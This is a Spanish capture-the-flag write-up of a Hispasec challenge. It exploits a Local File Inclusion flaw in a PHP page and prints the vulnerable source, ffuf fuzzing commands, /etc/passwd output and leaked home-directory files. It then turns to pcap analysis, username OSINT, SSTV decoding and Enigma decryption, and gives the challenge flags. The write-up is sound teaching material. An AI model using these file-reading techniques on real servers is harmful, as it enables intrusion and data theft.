


# Solución del reto Una-al-mes de noviembre de 2022: Se hace llamar Cryptogerman312

<https://unaalmes.hispasec.com>  
Categoría **Misc**

## Se hace llamar Cryptogerman312 (Parte 1)

> Un hacker nos ha robado información confidencial de la empresa dentro del home de uno de nuestros administradores y nos ha quitado el acceso a la máquina. Necesitamos que encuentres el fichero que nos ha robado antes de que nos exponga.
>
> 52.213.87.125:7788

La dirección corresponde a un servidor web. La página principal muestra varios enlaces a archivos y una atribución al origen de la imagen de fondo usada.

> En esta web encontraras datos increibles como estos:
>
> Archivo 1 Archivo 2 Archivo 3 Archivo 4 Archivo 5 Archivo 6
>
> Imagen de benzoix en Freepik


Los enlaces conducen a los textos siguientes.

- Archivo 1

  El contenido del archivo es: Hispasec se originó en 1998 con el lanzamiento de 'una al día'.

- Archivo 2

  El contenido del archivo es: Las siglas de XSS significan Cross Site Scripting.

- Archivo 3

  El contenido del archivo es: VirusTotal es un proyecto que se originó Hispasec!

- Archivo 4

  El contenido del archivo es: "García" es el apellido más común en España.

- Archivo 5

  El contenido del archivo es: Según estudios, hay alrededor de 4.200 religiones alrededor del mundo!!

- Archivo 6

  El contenido del archivo es: La Tierra tarda 31.556.926 segundos en dar una vuelta al Sol.

El código fuente de la página no revela nada especial.

```html
<html>
<head>
<title>Datos increibles</title>
<style>
h1{text-align: center;color: #FFFFFF}
a{color: #FFFFFF}
nav{text-align: center}
footer{text-align: center}
</style>
</head>
<body background="fondo.jpg">
<h1>En esta web encontraras datos increibles como estos:</h1>
<nav class="menu">
<a href="page.php?page=1">Archivo 1</a></li>
<a href="page.php?page=2">Archivo 2</a></li>
<a href="page.php?page=3">Archivo 3</a></li>
<a href="page.php?page=4">Archivo 4</a></li>
<a href="page.php?page=5">Archivo 5</a></li>
<a href="page.php?page=6">Archivo 6</a></li>
</nav>
&nbsp;&nbsp;&nbsp;&nbsp;
<footer>
<a href="https://www.freepik.es/foto-gratis/textura-pared-estuco-azul-marino-relieve-decorativo-abstracto-grunge-fondo-color-rugoso-gran-angular_11712554.htm#query=fondo%20azul&position=0&from_view=keyword">Imagen de benzoix en Freepik</a>
</footer>
</body>
</html>
```

Tras llevar a cabo algunas pruebas, no se encuentran indicios de que se trate de una consulta a una base de datos. De hecho, con [ffuf](https://github.com/ffuf/ffuf) y varias listas del clásico repositorio [SecLists](https://github.com/danielmiessler/SecLists) de Daniel Meissler, se descubren ficheros con nombres numéricos que corresponden precisamente a los contenidos mostrados.

```text
ffuf -u http://52.213.87.125:7788/FUZZ -w SecLists/Discovery/Web-Content/raft-large-files.txt -fc 404 -mc all
```

Por ejemplo, `http://52.213.87.125:7788/2` devuelve tal cual “Las siglas de XSS significan Cross Site Scripting.”. La página principal es un fichero estático **index.html**. Su extracción a través de **page.php**, así como la de **fondo.jpg**, confirma la presencia de una vulnerabilidad LFI (*Local File Inclusion*, inclusión de fichero local).

```html
El contenido del archivo es: <html>
<head>
<title>Datos increibles</title>
<style>
h1{text-align: center;color: #FFFFFF}
a{color: #FFFFFF}
nav{text-align: center}
footer{text-align: center}
</style>
</head>
<body background="fondo.jpg">
<h1>En esta web encontraras datos increibles como estos:</h1>
<nav class="menu">
<a href="page.php?page=1">Archivo 1</a></li>
<a href="page.php?page=2">Archivo 2</a></li>
<a href="page.php?page=3">Archivo 3</a></li>
<a href="page.php?page=4">Archivo 4</a></li>
<a href="page.php?page=5">Archivo 5</a></li>
<a href="page.php?page=6">Archivo 6</a></li>
</nav>
&nbsp;&nbsp;&nbsp;&nbsp;
<footer>
<a href="https://www.freepik.es/foto-gratis/textura-pared-estuco-azul-marino-relieve-decorativo-abstracto-grunge-fondo-color-rugoso-gran-angular_11712554.htm#query=fondo%20azul&position=0&from_view=keyword">Imagen de benzoix en Freepik</a>
</footer>
</body>
</html>
```

Existen numerosos recursos acerca de este problema de seguridad, aunque unas [notas de *xapax* sobre LFI](https://xapax.github.io/security/#attacking_web_applications/local_file_inclusion/) han resultado especialmente interesantes. Podria merecer la pena examinar en detalle su repositorio de documentación.

Incluso **page.php** entrega su propio texto al visitar `http://52.213.87.125:7788/page.php?page=page.php`. La apariencia en un navegador es engañosa: puede dar la impresión de que no ha devuelto nada y que se protege a sí mismo, pero al inspeccionar el código fuente de la página o usar herramientas estilo *curl* o *wget* se observa perfectamente.

```php
El contenido del archivo es: <?php
$file = $_GET['page'];
$file = str_replace("http://", "", $file);
$file = str_replace("https://", "", $file);
$file = str_replace(array("../", "..\""), "", $file);
echo "El contenido del archivo es: " . file_get_contents($file);
?>
```

Se constata que las rutas relativas en el parámetro **page** no proporcionan los resultados esperados, dado que las partículas `../` se reemplazan por `.."`. La enumeración de otras listas con rutas y nombres conocidos de ficheros devuelve numerosos resultados. En este caso, como el prefijo “El contenido del archivo es: ” se compone de 29 bytes, hay que descartar además las respuestas con esa longitud exacta, en lugar de errores 404 que nunca van a tener lugar.

```text
ffuf -u http://52.213.87.125:7788/page.php?page=FUZZ -w SecLists/Discovery/Web-Content/LinuxFileList.txt -fs 29 -mc all
ffuf -u http://52.213.87.125:7788/page.php?page=FUZZ -w SecLists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -fs 29 -mc all
```

En presencia de una vulnerabilidad LFI, la lectura exitosa del fichero **/etc/passwd** revela los nombres de usuario existentes en el sistema, aparte de los asociados a servicios y demonios, y las rutas de sus directorios *home*, si procede. Si además los permisos de los directorios no están ajustados de forma correcta, será factible leer ficheros alojados en ellos. Otros archivos de configuración en **/etc** pueden ser también objetivos tentadores, según la finalidad pretendida.

```text
El contenido del archivo es: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sysadmin:x:1000:1000::/home/sysadmin:/bin/sh
```

Por tanto, existe un usuario **sysadmin** cuyo directorio *home* es **/home/sysadmin**. El primer impulso consiste en solicitar ficheros de configuración de *shell* como **.bashrc**, **.bash_profile**, **bash_logout** o incluso **.bash_history**. Se puede obtener su texto. Sin embargo, **.bash_history** no existe o está vacío, y los demás no muestran ningún cambio con respecto a sus contenidos habituales. Se confía en que vuelva a sonar la campana con una nueva enumeración de nombres típicos de ficheros.

```text
ffuf -u http://52.213.87.125:7788/page.php?page=/home/sysadmin/FUZZ -w SecLists/Discovery/Web-Content/raft-large-files.txt -fs 29 -fc 400 -mc all
```

Colecciones más pequeñas como **raft-small** o **raft-medium** en lugar de **raft-large** habrían sido igual de eficaces, pero se ha preferido ser exhaustivo, dado que se trata de un ejercicio lúdico. Efectivamente, el premio mayor recae en [.DS_Store](https://en.wikipedia.org/wiki/.DS_Store), un tipo de fichero muy frecuente en sistemas Mac que a veces aparece en otras máquinas a través de archivos comprimidos o copias remotas recursivas. Lo genera Finder, el componente de Mac OS que implementa el navegador de ficheros y la interfaz gráfica usual, para almacenar metadatos. Su formato no está documentado de manera oficial, aunque se conoce parcialmente su estructura. No es habitual encontrarlo en servidores web. Sin duda, su presencia puede convertirse en [un problema de revelación de información ya conocido desde antiguo](https://www.intego.com/mac-security-blog/possible-security-issue-involving-ds_store-files-on-web-servers/ "Possible Security Issue Involving .DS_Store Files on Web Servers - Intego: The Mac Security Blog").

La herramienta **strings** tal cual no produce frutos.

```text
$ strings .DS_Store
El contenido del archivo es:
Bud1
tIlocblob
pIlocblob
DSDB
```

No obstante, el volcado hexadecimal sí aporta indicios.

```text
$ hexdump -C .DS_Store
00000000  45 6c 20 63 6f 6e 74 65  6e 69 64 6f 20 64 65 6c  |El contenido del|
00000010  20 61 72 63 68 69 76 6f  20 65 73 3a 20 00 00 00  | archivo es: ...|
00000020  01 42 75 64 31 00 00 10  00 00 00 08 00 00 00 10  |.Bud1...........|
00000030  00 00 00 00 87 00 00 00  00 00 00 00 00 00 00 00  |................|
00000040  00 00 00 00 00 00 00 00  00 00 00 08 00 00 00 08  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 02 00 00 00  00 00 00 00 02 00 00 00  |................|
00000070  01 00 00 10 00 00 69 00  64 00 65 00 6e 00 63 00  |......i.d.e.n.c.|
00000080  69 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |i...............|
00000090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
000000a0  00 00 00 00 00 00 00 00  02 00 00 00 10 00 63 00  |..............c.|
000000b0  6f 00 6e 00 66 00 69 00  64 00 65 00 6e 00 63 00  |o.n.f.i.d.e.n.c.|
000000c0  69 00 61 00 6c 00 2e 00  74 00 78 00 74 49 6c 6f  |i.a.l...t.x.tIlo|
000000d0  63 62 6c 6f 62 00 00 00  10 00 00 01 3c 00 00 00  |cblob.......<...|
000000e0  2d ff ff ff ff ff ff 00  00 00 00 00 0c 00 74 00  |-.............t.|
000000f0  72 00 61 00 66 00 69 00  63 00 6f 00 2e 00 70 00  |r.a.f.i.c.o...p.|
00000100  63 00 61 00 70 49 6c 6f  63 62 6c 6f 62 00 00 00  |c.a.pIlocblob...|
00000110  10 00 00 00 a8 00 00 00  24 ff ff ff ff ff ff 00  |........$.......|
00000120  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00000820  00 00 00 00 01 00 00 00  00 00 00 08 0b 00 00 00  |................|
00000830  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
```

Se observan letras con bytes nulos intercalados que denotan una codificación UTF-16.

```text
$ strings -el .DS_Store
idenci
confidencial.tx
trafico.pca
```

Resulta que el formato sigue un orden de bytes *big-endian*, no *little-endian*. Esto puede tener su explicación en el hardware de los ordenadores Mac en la época en que Finder incorporó los ficheros .DS_Store. Aunque la arquitectura PowerPC podía trabajar en cualquiera de los dos modos, el sistema operativo de escritorio de Apple seguía operando en *big-endian* al igual que la familia de procesadores 68000 de Motorola. Probablemente muchos formatos de fichero aún operativos desde aquella época conservan este orden.

```text
$ strings -eb .DS_Store
idenci
confidencial.txt
trafico.pcap
```

Sin duda alguna, es un método tosco pero efectivo, siempre que los nombres estén compuestos por caracteres ASCII imprimibles.

Sebastian Neef, autor del blog [0day.work](https://0day.work), publicó en 2018 una descripción detallada del formato en “[Parsing the .DS_Store file format](https://0day.work/parsing-the-ds_store-file-format/)“. Existen analizadores específicos que extraen la información y la presentan de una forma estructurada.  Uno muy simple y eficaz para Python se ha hallado en el repositorio [.DS_Store-parser](https://github.com/hanwenzhu/.DS_Store-parser). Antes de tratar el fichero recibido como un .DS_Store convencional es imprescindible eliminar los 29 bytes del texto añadido. Se prefiere evitar **cut**, ya que está orientado a líneas de texto y puede corromper los ficheros binarios, de modo que se ha empleado **dd**. Por ejemplo:

```text
dd if=.DS_Store of=.DS_Store.bin skip=29 bs=1
mv .DS_Store .DS_Store.bak
mv .DS_Store.bin .DS_Store
```

Entonces, se clona el repositorio con **git** y se ejecuta **parse.py** desde su propio directorio con la ubicación del fichero .DS_Store.

```text
$ git clone https://github.com/hanwenzhu/.DS_Store-parser.git --depth 1 DS_Store-parser
$ cd DS_Store-parser
$ python3 parse.py ../.DS_Store
confidencial.txt
        Icon location: x 316px, y 45px, 0xffffffffffff0000
trafico.pcap
        Icon location: x 168px, y 36px, 0xffffffffffff0000
```

También se han probado los proyectos [ds_store](https://github.com/dmgbuild/ds_store), disponible además como paquete instalable en PyPi, y [DSStoreParser](https://github.com/nicoleibrahim/DSStoreParser), aunque se han presentado algunas dificultades para hacerlos funcionar correctamente desde la línea de comandos. El primero habilita un *script* ejecutable, pero falla porque espera que la función **main** no reciba parámetros y esta espera uno. El segundo requiere Python 2, así como los paquetes **unicodecsv**, **biplist** y **mac_alias**, y necesita una modificación en un `if` del código para poder ejecutarse correctamente en Linux.

El enunciado mencionaba información confidencial de la empresa dentro del *home* de uno de los administradores. Al solicitar el fichero **confidencial.txt** en `http://52.213.87.125:7788/page.php?page=/home/sysadmin/confidencial.txt`, se obtiene un texto que corresponde de forma inequívoca a la *flag* de esta primera parte.

```text
El contenido del archivo es: UAM{a3965f80606f82add8e921e135f0decb}
```

*FLAG*: **UAM{a3965f80606f82add8e921e135f0decb}**

## Se hace llamar Cryptogerman312 (Parte 2)

> Además, ha dejado un archivo con su tráfico de red dentro de ese mismo home, aunque no hemos encontrado nada interesante en él; debes averiguar cómo lo ha hecho y seguirle la pista para averiguar quién es.

El fichero **trafico.pcap** mencionado en .DS_Store también se puede descargar de la web con la petición `http://52.213.87.125:7788/page.php?page=/home/sysadmin/trafico.pcap`. Se le debe aplicar el mismo descarte del texto inicial.

```text
dd if=trafico.pcap of=trafico.pcap.bin skip=29 bs=1
mv trafico.pcap trafico.pcap.bak
mv trafico.pcap.bin trafico.pcap
```

Si se abre en Wireshark, solamente constan mensajes UDP de 127.0.0.1:32769 a 127.0.0.1:9600 con líneas de texto que se repiten cíclicamente.


Puede ser conveniente mostrar los campos de datos como texto. Se configura en **Edit**, **Preferences**, sección **Protocols**, **Data**: **Show data as text**.


De esta manera, los paquetes con datos despliegan el texto además de su representación hexadecimal.


También es posible habilitar una nueva columna en la lista de paquetes con el texto. Para ello, se hace clic derecho sobre la cabecera de las columnas y se elige **Column Preferences**.


La columna se añade con el botón **+** y se rellena con título **Data**, tipo **Custom** y campos **data.text**.


Al agrandar la ventana y ajustar las columnas, se obtiene una vista previa del contenido de texto de cada paquete sin necesidad de seleccionarlo.



Se repiten tres tipos de mensajes.

```text
http://localhost/?username=cryptogermang312&password=jfs{8z3kf304v57303q438y0u3407o82469d}
https://pastebin.com/E9xCZxBH
Ransom por aqui y por alla jajaja
```

El valor **username** podría ser el nombre de usuario en algún servicio y **password** tiene claramente aspecto de *flag*. Debe de encontrarse codificada o cifrada de algún modo. Se deduce que **jfs** encaja de forma obvia con **uam**, aunque no parece tratarse de un método clásico de cifrado alfabético como César o Vigènere. Las letras que hay entre los corchetes son en realidad dígitos hexadecimales, por lo que existen 6⁹ posibilidades (6 elevado a 9), unos diez millones, y solamente una es la correcta.

La dirección de Pastebin <https://pastebin.com/E9xCZxBH> puede aportar algo más de información.


Alguien de nombre Khatarros dejó un mensaje interesante.

> **cryptogermang312, el nuevo delincuente.**
>
> He estado buscando información sobre este delincuente que se hace llamar cryptogermang312; no he conseguido mucho pero he descubierto a través de foros privados de la deep web que se trata de una persona que solo quiere hacer que las empresas pierdan dinero encriptando sus datos; he intentado buscarle a través de OSINT pero no he encontrado nada en especial, quizás tenga un perfil en alguna web que no indexe los perfiles... debo investigar más, mucha suerte a todos y espero que esto les sirva.
>
> PD: Creo que le interesa mucho un grupo militar alemán de la segunda guerra mundial aunque no he podido corroborar esa información.

Tras revisar [recursos de OSINT](https://socradar.io/the-ultimate-osint-handbook-on-personal-information/) y buscadores de perfiles, como [PeekYou](https://www.peekyou.com/username=cryptogermang312/), se halla uno en [Keybase.io](https://keybase.io/cryptogermang312) que encaja con la descripción.


> cryptogermang312  
> cryptogerman_g-312  
> Entusiasta de la segunda guerra mundial y su criptografía, en especial del grupo alemán Abwehr. Recordatorio: https://drive.google.com/file/d/1WZXAHjP2nEYhxZm54XtAUlrju6A2rMNZ/view?usp=share_link  
> Alemania

La [Abwehr](https://es.wikipedia.org/wiki/Abwehr) (en español, “defensa”) fue una organización alemana de inteligencia militar.

A posteriori se han conocido dos herramientas de OSINT que confirman el resultado. Por una parte, la aplicación web [WhatsMyName](https://whatsmyname.app) busca un nombre de usuario en múltiples redes, con la posibilidad de filtrarlas por determinadas categorías, y devuelve una tabla que se puede exportar al portapapeles, un fichero de Excel, un fichero separado por comas (CSV) o un documento PDF.


WhatsMyName consigue localizar al esquivo **cryptogermang312** en Keybase.


Por otro lado, [Sherlock](https://github.com/sherlock-project/sherlock) está escrito en Python y se maneja en la línea de comandos.

```text
$ git clone --depth 1 https://github.com/sherlock-project/sherlock.git
$ cd sherlock
$ pip install -r requirements.txt
$ python3 sherlock/sherlock.py cryptogermang312
[*] Checking username cryptogermang312 on:

[+] Keybase: https://keybase.io/cryptogermang312
[+] Strava: https://www.strava.com/athletes/cryptogermang312

[*] Results: 2
```

El resultado de Strava se verifica como un falso positivo.

El enlace de Google Drive, <https://drive.google.com/file/d/1WZXAHjP2nEYhxZm54XtAUlrju6A2rMNZ/view?usp=share_link>, conduce a un fichero de audio. El sonido se reconoce como una transmisión [SSTV](https://en.wikipedia.org/wiki/Slow-scan_television) (*Slow-scan Television*, televisión de barrido lento), un método de difusión de imágenes por radio que, a diferencia de la televisión convencional, está limitado a una banda estrecha de frecuencias de voz (unos 3 kHz) y, por tanto, emplea mucho más tiempo en transmitir un solo fotograma, pero permite la emisión a larga distancia mediante la modulación en señales de onda corta hasta los 30 MHz aproximadamente.

En Linux, la herramienta [QSSTV](https://www.qsl.net/on4qz/qsstv/) puede decodificar estas transmisiones. [Muchas distribuciones proporcionan](https://repology.org/project/qsstv/versions "qsstv package versions - Repology") un paquete de instalación, por lo que no debería ser necesario descargar y compilar a mano el código fuente. Aun así, el más reciente se puede consultar y descargar en <https://github.com/ON4QZ/QSSTV>.


Los parámetros predefinidos suelen ser adecuados. Es conveniente modificar la configuración para que tome el audio de un fichero y no de la tarjeta de sonido: en **Options**, **Configure**, pestaña **Sound**, **Sound Input**, se elige **From file**. La opción de la tarjeta de sonido puede funcionar, pero requerirá reproducir aparte el fichero con el volumen suficiente como para que QSSTV capte los datos. La calidad de imagen empeorará.



Es posible que se rechace el audio por una discrepancia en el formato.


```text
$ file Recordatorio_RaOlBeOTas36.wav
Recordatorio_RaOlBeOTas36.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, mono 44100 Hz
```

El valor de **Input Clock Frequency** en la configuración de sonido es indiferente; aunque se ajuste a 44100 Hz, se seguirá produciendo el error. Al parecer, QSSTV requiere que los ficheros de audio sean de tipo WAV con modulación PCM a 48000 Hz. Para ello, se puede usar un editor convencional como Audacity, o herramientas del estilo de [sox](https://sox.sourceforge.net/sox.html) o [ffmpeg](https://ffmpeg.org/ffmpeg.html). En Audacity se cargaría el fichero .wav y se ajustaría **Project Rate**, en la barra inferior, a 48000 Hz. Después, se exportaría a un nuevo fichero con **File**, **Export**, **Export as WAV**. Es importante no incluir metadatos.

En **sox**, la opción `-r` (*rate*) especifica la nueva frecuencia de muestreo. Se aconseja también la opción `-G` para reducir la posibilidad de distorsiones en la conversión.

```text
sox Recordatorio_RaOlBeOTas36.wav -G -r 48000 recordatorio.wav
```

De forma similar, **ffmpeg** provee la opción `-ar` (*audio rate*) para la frecuencia de muestreo. La configuración `-fflags +bitexact` evita la escritura de nuevos metadatos.

```text
ffmpeg -i Recordatorio_RaOlBeOTas36.wav -fflags +bitexact -ar 48000 recordatorio.wav
```

Con cualquiera de estos tratamientos, QSSTV acepta el nuevo fichero de audio y decodifica la imagen.


El modo **Robot 36** de SSTV ya se daba a entender de forma sutil en el nombre del fichero original **Recordatorio_RaOlBeOTas36.wav**. La ligera desviación lateral puede corregirse con la opción *Auto Slant*.


El reflector y los rotores son elementos típicos de una máquina Enigma. Existieron numerosas variantes de este dispositivo criptográfico alemán de la primera mitad del siglo XX. La tabla muestra una configuración particular. Como guiño, las letras asociadas a las posiciones y los anillos forman HISPASEC.

Elemento  | Tipo | Posición | Anillo
----------|------|:--------:|:------:
Reflector | UKW  |   8 (H)  |  9 (I)
Rotor 1   | I    |  19 (S)  | 16 (P)
Rotor 2   | II   |   1 (A)  | 19 (S)
Rotor 3   | III  |   5 (E)  |  3 (C)

La imagen le resultará familiar a cualquiera que se haya recreado mínimamente con la aplicación web [Cryptii](https://cryptii.com). La máquina Enigma propuesta por defecto no concuerda con los parámetros. Al desplegar la lista de opciones, las pistas conducen a un modelo muy concreto: **Abwehr Enigma G-312**.


Cabe destacar que este raro ejemplar de máquina Enigma G [fue objeto de un sonado robo](https://www.cryptomuseum.com/crypto/enigma/g/g312.htm "G312: Abwehr Enigma stolen from Bletchley Park") justamente en el lugar en que, más de cincuenta años antes, trabajó en romper el cifrado Enigma un equipo de criptoanalistas dirigidos por el matemático y teórico de la computación Alan Turing. Su sustracción del museo de Bletchley Park, en el Reino Unido, tuvo lugar en abril del año 2000 y se consiguió su recuperación unos meses más tarde.

El texto cifrado **jfs{8z3kf304v57303q438y0u3407o82469d}**, los ajustes de la tabla anterior y la inclusión de caracteres no alfabéticos generan la segunda *flag*.


*FLAG*: **uam{8f3ac304e57303e438f0b3407f82469a}**
